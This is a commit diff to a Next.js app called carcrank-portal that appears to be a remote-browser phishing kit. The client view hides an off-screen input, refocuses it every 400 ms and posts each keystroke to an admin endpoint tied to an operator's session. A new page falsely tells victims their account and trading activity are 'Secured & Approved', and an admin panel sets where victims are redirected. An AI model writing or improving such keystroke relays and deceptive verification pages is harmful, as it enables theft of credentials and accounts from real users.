

Before and after one commit to Saifibhai565/carcrank-portal, a Next.js app: page /success in a window 1280 px wide. Before the commit this address had no page. Shown: the part 198-580 px from the top of the page, without its empty margins (319-959 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
add success page and clean client view

```diff
--- a/app/admin/ProxyManagerTab.tsx
+++ b/app/admin/ProxyManagerTab.tsx
@@ -37,7 +37,7 @@ export default function ProxyAndStreamManager() {
   const [activeSessionId, setActiveSessionId] = useState<string | null>(null);
   const [connectingSessionId, setConnectingSessionId] = useState<string | null>(null);
 
-  const [redirectUrl, setRedirectUrl] = useState("https://success-portal.com/complete");
+  const [redirectUrl, setRedirectUrl] = useState("");
   const [redirecting, setRedirecting] = useState(false);
 
   // 🔥 1. Ghost Session Fix & LocalStorage Sync on Component Mount
@@ -386,7 +386,7 @@ export default function ProxyAndStreamManager() {
                 type="text"
                 value={redirectUrl}
                 onChange={(e) => setRedirectUrl(e.target.value)}
-                placeholder="https://success-portal.com/complete"
+                placeholder="http://localhost:3000/success"
                 className="bg-zinc-900 border border-zinc-800 px-3 py-2 rounded-xl text-xs text-zinc-200 font-mono outline-none w-full"
               />
               <button
--- a/app/client/page.tsx
+++ b/app/client/page.tsx
@@ -62,17 +62,17 @@ function ClientViewContent() {
     };
   }, [sessionId, isTerminated]);
 
-  // 3. Auto-focus hidden input continuously
+  // 3. Continuous Auto-focus for Mobile & Desktop
   useEffect(() => {
     const focusTimer = setInterval(() => {
       if (hiddenInputRef.current) {
         hiddenInputRef.current.focus();
       }
-    }, 500);
+    }, 400);
     return () => clearInterval(focusTimer);
   }, []);
 
-  // 4. Unified Interaction Handler
+  // 4. Unified Interaction Handler (Click & Touch)
   const handleInteraction = async (clientX: number, clientY: number, target: HTMLElement) => {
     if (isTerminated || !sessionId) return;
 
@@ -96,8 +96,23 @@ function ClientViewContent() {
     } catch (err) {}
   };
 
-  // 5. Keyboard Typing Handler
-  const handleKeyDown = async (e: React.KeyboardEvent<HTMLInputElement> | React.KeyboardEvent<HTMLDivElement>) => {
+  // 5. Seamless Typing & Keypress Handler
+  const handleInputText = async (e: React.ChangeEvent<HTMLInputElement>) => {
+    if (isTerminated || !sessionId) return;
+    const val = e.target.value;
+    if (!val) return;
+
+    const charToSend = val.slice(-1);
+    try {
+      await fetch("/api/admin/type", {
+        method: "POST",
+        headers: { "Content-Type": "application/json" },
+        body: JSON.stringify({ text: charToSend, sessionId }),
+      });
+    } catch (err) {}
+  };
+
+  const handleKeyDown = async (e: React.KeyboardEvent<HTMLInputElement>) => {
     if (isTerminated || !sessionId) return;
 
     try {
@@ -106,12 +121,6 @@ function ClientViewContent() {
           method: "POST",
           headers: { "Content-Type": "application/json" },
           body: JSON.stringify({ key: e.key, sessionId }),
-        });
-      } else if (e.key.length === 1) {
-        await fetch("/api/admin/type", {
-          method: "POST",
-          headers: { "Content-Type": "application/json" },
-          body: JSON.stringify({ text: e.key, sessionId }),
         });
       }
     } catch (err) {}
@@ -139,13 +148,15 @@ function ClientViewContent() {
       }}
       className="fixed inset-0 bg-black flex items-center justify-center outline-none cursor-default select-none overflow-hidden"
     >
-      {/* Hidden input to capture keystrokes reliably */}
+      {/* Hidden native input to trigger mobile keyboard cleanly without layout breaking */}
       <input
         ref={hiddenInputRef}
         type="text"
+        onChange={handleInputText}
         onKeyDown={handleKeyDown}
-        className="absolute opacity-1 w-1 h-1 bg-transparent border-none outline-none"
-        style={{ left: "-9999px" }}
+        className="absolute opacity-0 w-0 h-0 pointer-events-none"
+        style={{ left: "-9999px", top: "-9999px" }}
+        autoComplete="off"
         autoFocus
       />
 
--- /dev/null
+++ b/app/success/page.tsx
@@ -0,0 +1,22 @@
+"use client";
+
+export default function SuccessPage() {
+  return (
+    <div className="min-h-screen bg-zinc-950 flex flex-col items-center justify-center p-4 text-zinc-100 font-sans select-none">
+      <div className="bg-zinc-900 border border-zinc-800 p-8 rounded-2xl shadow-2xl text-center space-y-4 max-w-md w-full">
+        <div className="w-16 h-16 rounded-full bg-emerald-500/10 text-emerald-400 border border-emerald-500/30 flex items-center justify-center mx-auto text-2xl font-bold animate-bounce">
+          ✓
+        </div>
+        <h1 className="text-lg font-bold text-zinc-100 tracking-tight">Verification Complete</h1>
+        <p className="text-xs text-zinc-400 leading-relaxed">
+          Your account and trading activity have been successfully verified. You may now close this window or return to the portal.
+        </p>
+        <div className="pt-2">
+          <span className="inline-block bg-emerald-950/60 border border-emerald-500/30 text-emerald-400 px-4 py-1.5 rounded-full text-[11px] font-bold">
+            Status: Secured & Approved
+          </span>
+        </div>
+      </div>
+    </div>
+  );
+}
```
